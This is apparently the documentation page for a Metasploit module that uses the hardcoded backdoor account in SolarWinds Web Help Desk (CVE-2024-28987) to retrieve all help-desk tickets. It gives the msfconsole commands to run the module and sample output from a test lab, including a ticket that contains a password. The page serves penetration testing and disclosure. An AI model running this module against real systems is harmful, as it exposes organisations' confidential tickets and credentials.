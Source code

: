 ## Vulnerable Application

This module exploits a backdoor in SolarWinds Web Help Desk <= v12.8.3 (CVE-2024-28987) to retrieve all tickets from the system.

## Testing

The software can be obtained from
[the vendor](https://downloads.solarwinds.com/solarwinds/Release/WebHelpDesk/12.8.1/WebHelpDesk-12.8.1-x64_eval.exe).

Installation instructions are available [here]
(https://documentation.solarwinds.com/en/success_center/whd/content/whd_installation_guide.htm).

**Successfully tested on**

- SolarWinds Web Help Desk v12.8.1 on Windows 22H2

## Verification Steps

1. Install and run the application
2. Start `msfconsole` and run the following commands:

```
msf6 > use auxiliary/gather/solarwinds_webhelpdesk_backdoor 
msf6 auxiliary(gather/solarwinds_webhelpdesk_backdoor) > set RHOSTS <IP>
msf6 auxiliary(gather/solarwinds_webhelpdesk_backdoor) > run
```

This should return all the tickets from the Web Help Desk platform.

## Scenarios

Running the exploit against Web Help Desk v12.8.1 on Windows 22H2 should result in an output similar to the following:

```
msf6 auxiliary(gather/solarwinds_webhelpdesk_backdoor) > run
[*] Running module against 192.168.217.145

[*] Authenticating with the backdoor account "helpdeskIntegrationUser"...
[+] Successfully authenticated and tickets retrieved:
[+] [
  {
    "id": 2,
    "type": "Ticket",
    "lastUpdated": "2024-09-25T08:54:13Z",
    "shortSubject": "Password reset",
    "shortDetail": "Hi,\r\n\r\nhere is your super secure password: foo\r\n\r\nYour IT Support",
    "displayClient": "No Client",
    "updateFlagType": 2,
    "prettyLastUpdated": "18 minutes ago",
    "latestNote": null
  },
  {
    "id": 1,
    "type": "Ticket",
    "lastUpdated": "2024-09-25T05:15:17Z",
    "shortSubject": "Welcome to Web Help Desk",
    "shortDetail": "Congratulations! You have successfully installed Web Help Desk. Further configuration options are...",
    "displayClient": "Demo Client",
    "updateFlagType": 2,
    "prettyLastUpdated": "4 hours ago",
    "latestNote": null
  }
]
[*] Auxiliary module execution completed
```
